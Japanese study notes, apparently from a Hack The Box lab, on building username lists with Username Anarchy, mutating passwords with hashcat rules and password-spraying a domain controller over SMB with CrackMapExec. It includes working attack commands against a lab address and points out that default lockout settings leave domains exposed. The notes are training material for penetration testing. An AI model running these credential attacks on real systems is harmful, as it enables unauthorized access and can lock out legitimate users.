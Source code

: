 ### **ユーザー名リストの自動生成**

ユーザー名リストは**手動で作成することも可能**だが、**自動生成ツールを活用**すれば効率的に一般的なユーザー名フォーマットを作成できる。

### 1. わかっているユーザーネームをファイルにまとめる
```shell-session
snowyowl644@htb[/htb]$ cat usernames.txt 
bwilliamson
benwilliamson
ben.willamson
willamson.ben
bburgerstien
bobburgerstien
bob.burgerstien
burgerstien.bob
jstevenson
jimstevenson
jim.stevenson
stevenson.jim
```
#### **2. 自動リスト生成ツールを使用**
- **`Username Anarchy`**（Rubyベースのツール）を使用すると、**実名リストから複数のユーザー名パターンを生成可能**
- Gitを使って攻撃ホストにツールをクローンし、実際の名前リストに適用する

#### **3. `Username Anarchy` の利用方法**
1. **ツールをGitでクローン**
```bash
git clone https://github.com/urbanadventurer/username-anarchy.git
cd username-anarchy
```
3. **リストを使ってユーザー名を生成**
```bash
./username-anarchy -i ../usernames.txt 
```
→ 実際の名前リストを基に、**一般的なユーザー名形式を自動的に作成**

パスワードにカスタムルールを適用する
```shell-session
hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list
```
### CrackMapExecで攻撃を開始する
- ターゲットドメインコントローラーに対する攻撃
	- SMBプロトコルと組み合わせることもできる

例 : ユーザー(-u) bwilliamson に対して、パスワードリスト（-p） `/usr/share/wordlists/fasttrack.txt`に含まれる一般的なパスワードを試行
```shell-session
crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
```

ユーザー側もファイルを指定したい場合
```sh
crackmapexec smb 10.129.201.57 -u users.txt -p /usr/share/wordlists/fasttrack.txt
```
注意点: アカウントロックアウトのリスク
- 管理者がアカウントロックアウトポリシーを設定している場合、この攻撃によってターゲットアカウントがロックされる可能性がある
- 2022年1月時点 では、Windowsドメインに適用される デフォルトのグループポリシーではアカウントロックアウトポリシーは有効化されていない
- そのため、この攻撃に対して脆弱な環境に遭遇する可能性がある
